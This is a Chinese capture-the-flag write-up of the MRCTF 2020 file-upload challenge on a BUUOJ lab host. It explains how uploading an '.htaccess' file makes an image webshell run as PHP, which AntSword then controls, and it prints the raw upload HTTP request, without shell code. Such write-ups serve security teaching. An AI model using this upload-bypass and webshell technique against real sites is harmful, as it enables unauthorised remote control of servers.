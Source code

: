 # 2021/07/15

## 你传你M呢

> MRCTF 2020

### 题目

这个题很明显是一道**文件上传**的题目，进入页面

![202107151](img/20210715/202107151.png)

发现了一个上传的地方，就可以开始试验了，先传一个正常文件

![202107152](img/20210715/202107152.png)

发现上传后爆出了路径`/var/www/html/upload/797cfc851dce9d3fa8dc31e4e51690fe/bme.jpg`，那就开始试验**图片马**，可以发现内容其实**可上传的东西**很多，但是**文件尾缀名**很严格，这就需要我们用一些方法来将**图片马**解析为`php`文件，最简单的肯定是**解析漏洞**，正巧服务器也是**Nginx**，试了一下发现并不行，这时候就要转换思路，这里我们采用上传`.htaccess`文件，来使得服务器将**图片**解析为`php`，而且后台并没有对该文件做过滤，上传改文件之后，蚁剑连接之前的**图片马**，得到`flag`

### payload

```http
POST /upload.php HTTP/1.1
Host: f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Length: 318
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWKBrqt1O5reejsLg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=bd677f20100dbfa043cfaa997a5224dc
Connection: close

------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="uploaded"; filename="bme.jpg"
Content-Type: image/jpeg
```